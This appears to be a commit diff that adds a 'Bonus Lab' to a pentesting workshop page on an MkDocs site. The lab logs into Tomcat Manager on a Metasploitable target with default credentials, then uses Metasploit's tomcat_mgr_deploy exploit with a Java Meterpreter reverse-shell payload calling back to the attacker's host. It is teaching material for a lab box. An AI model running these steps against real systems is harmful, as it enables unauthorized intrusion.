

Before and after one commit to amerck/merckedsec, an MkDocs documentation site: the page built from docs/classes/pentesting_workshop_2021.md, in a window 1280 px wide and 1400 px high, scrolled down 1779 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Adding bonus lab

````diff
--- a/docs/classes/pentesting_workshop_2021.md
+++ b/docs/classes/pentesting_workshop_2021.md
@@ -93,3 +93,89 @@ id
 ```
 
 This should return output stating that we have an active session as the root user. Success! We’ve rooted our first box.
+
+## Bonus Lab: More Metasploit
+
+
+The next lab will be a bit more involved than the previous exercise. We first begin by revisiting our Nmap results from previously. We see that Tomcat manager is running on port 8180. We recall several incidents involving poor authentication with Tomcat manager. We’ll begin by browsing to this port within a web browser.
+
+```
+http://<meterpreter_ip>:8180
+```
+
+We should see a panel to the left of the screen. This panel should contain a link titled “Tomcat Manager." Click the “Tomcat Manager” link and insert the default username and password when prompted.
+
+* username: tomcat
+* password: tomcat
+
+We’re now in the management panel of Tomcat. From here, we can upload any web application that we would like. We could do this manually, but Metasploit should have a module that does this automatically. Start Metasploit if it isn’t currently running.
+
+```
+msfconsole
+```
+
+Once Metasploit starts, we should search for any exploit related to tomcat.
+
+```
+search tomcat
+```
+
+After examining the results, “tomcat_mgr_deploy” sounds like it may do what we’re wanting to do. Let’s verify by using the following command:
+
+```
+info exploit/multi/http/tomcat_mgr_deploy
+```
+
+Go ahead and use this exploit, since we have verified that it will work against our target host.
+
+```
+use exploit/multi/http/tomcat_mgr_deploy
+```
+
+Now that we’ve activated this exploit, let’s examine the options available
+
+```
+show options
+```
+
+As before, we’ll set each variable to the required setting, making sure we provide the default username and password.
+
+```
+set HttpPassword tomcat
+set HttpUsername tomcat
+set RHOSTS <metasploitable_ip>
+set RPORT 8180
+set target 1
+```
+
+Now that we need to select a payload for the exploit. Hitting tab a few times reveals java/meterpreter/reverse_tcp. Since we prefer using meterpreter when possible, we’ll select this option.
+
+```
+set payload java/meterpreter/reverse_http
+```
+
+Once again, “show options” to show payload options.
+
+```
+show options
+```
+
+We’ll set the payload option to our local IP address.
+
+```
+set LHOST <kali_ip>
+```
+
+And then run the exploit.
+
+```
+run
+```
+
+Let’s examine the current UID with the following command.
+
+```
+getuid
+```
+
+We should see that our payload is running as the tomcat user. The next steps would be to find a way to elevate these permissions to root.
````
